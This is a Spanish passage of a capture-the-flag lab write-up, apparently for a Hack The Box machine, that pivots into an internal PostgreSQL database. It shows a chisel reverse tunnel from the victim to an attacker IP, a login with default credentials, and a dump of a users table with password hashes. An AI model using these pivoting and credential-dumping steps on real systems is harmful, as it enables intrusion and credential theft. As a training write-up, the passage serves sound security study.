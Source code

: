 Máquina víctima
```shell
./chisel client 10.10.14.80:1234 R:5432:172.22.0.1:5432
2024/08/01 20:04:27 client: Connecting to ws://10.10.14.80:1234
2024/08/01 20:04:27 client: Connected (Latency 37.887855ms)
```

Ahora en principio mi puerto local 5432 corresponde al puerto 5432 del equipo `172.22.0.1`

Lo podemos comprobar..
```shell
$ nmap -p5432 127.0.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-02 00:05 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00019s latency).

PORT     STATE SERVICE
5432/tcp open  postgresql
```

## Enumerating Database
He utilizado `sshpass` para poner la contraseña de la base de datos rápidamente y así saltarme el prompt de la contraseña..

```shell
$ sshpass -p postgres psql -h 127.0.0.1 -U postgres -W postgres -p 5432
psql (15.7 (Debian 15.7-0+deb12u1), server 13.7 (Debian 13.7-1.pgdg110+1))
Type "help" for help.

postgres=#
```

con `\list` detectamos una base de datos llamada `mentorquotes_db`

```shell
postgres=# \c mentorquotes_db
Password:
psql (15.7 (Debian 15.7-0+deb12u1), server 13.7 (Debian 13.7-1.pgdg110+1))
You are now connected to database "mentorquotes_db" as user "postgres".
mentorquotes_db=# \dt
          List of relations
 Schema |   Name   | Type  |  Owner
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)

mentorquotes_db=#
```

Vemos varias tablas interesantes, pero la que mas me interesa es `cmd_exec`  ya que podría haberse ejecutado comandos que revelen credenciales...

```SQL
mentorquotes_db=# select * from users;
 id |         email          |  username   |             password
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
(2 rows)
```
